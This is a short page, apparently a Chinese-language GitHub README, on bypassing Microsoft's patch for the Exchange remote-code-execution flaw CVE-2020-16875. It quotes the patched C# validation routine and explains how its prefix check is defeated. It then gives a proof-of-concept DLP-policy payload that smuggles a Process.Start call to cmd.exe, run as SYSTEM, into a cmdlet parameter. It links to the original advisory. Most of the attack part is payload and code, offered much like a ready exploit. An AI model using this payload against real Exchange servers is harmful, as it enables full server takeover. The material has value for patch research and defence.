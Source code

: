 # Bypass for Microsoft Exchange远程代码执行 CVE-2020-16875

CVE-2020-16875的补丁代码：


```
internal static void ValidateCmdletParameters(string cmdlet,
    IEnumerable<KeyValuePair<string, string>> requiredParameters)
{
    if (string.IsNullOrWhiteSpace(cmdlet))
    {
        return;
    }
    Collection<PSParseError> collection2;
    Collection<PSToken> collection = PSParser.Tokenize(cmdlet,
        out collection2);
    if (collection2 != null && collection2.Count > 0)
    {
        throw new DlpPolicyParsingException(
            Strings.DlpPolicyNotSupportedCmdlet(cmdlet));
    }
    if (collection != null)
    {
        // #1 CHECKS IF THERE IS MORE THAN ONE COMMAND, BUT DOES NOT
        // RECOGNIZE .NET FUNCTIONS SUCH AS [Int32]::Parse("12")
        if ((from token in collection
        where token.Type == PSTokenType.Command 
        select token).ToList<PSToken>().Count > 1)
        {
            throw new DlpPolicyParsingException(
                Strings.DlpPolicyMultipleCommandsNotSupported(cmdlet));
        }
    }
    bool flag = false;
    foreach (KeyValuePair<string, string> keyValuePair in requiredParameters)
    {
        // #2 CHECKS IF THE cmdlet STRING(!!) STARTS WITH AN ALLOWED KEY
        if (cmdlet.StartsWith(keyValuePair.Key,
            StringComparison.InvariantCultureIgnoreCase))
        {
            // #3 CHECKS IF THE THE VALUES / PARAMETERS MATCH A CERTAIN
            // REGEX
            if (!Regex.IsMatch(cmdlet, keyValuePair.Value,
                RegexOptions.IgnoreCase))
            {
                throw new DlpPolicyParsingException(
                    Strings.DlpPolicyMissingRequiredParameter(cmdlet,
                        keyValuePair.Value));
            }
            flag = true;
        }
    }
    if (!flag)
    {
        throw new DlpPolicyParsingException(Strings.DlpPolicyNotSupportedCmdlet(
                                                                        cmdlet));
    }
}
```

**绕过：**

可以轻松绕过检查＃2，因为检查是在原始cmdlet字符串，仅使用函数.StartsWith()检查cmdlet的开头。要绕过，我们只提供给定的有效键中包含的命令字符串通过requiredParameters：

```
new-transportruleSOMETHINGELSE ....
```

**PoC：**

以下Payload可以绕过所有三个检查：


```
<![CDATA[ new-transportrule
   -Name $([Diagnostics.Process]::start("cmd.exe / C <run-as-SYSTEM>"))
   -DlpPolicy "%%DlpPolicyName%%"
]]>
```

详情可以阅读：https://x41-dsec.de/security/advisory/exploit/research/2020/12/21/x41-microsoft-exchange-rce-dlp-bypass/

https://forum.ywhack.com/thread-114854-1-2.html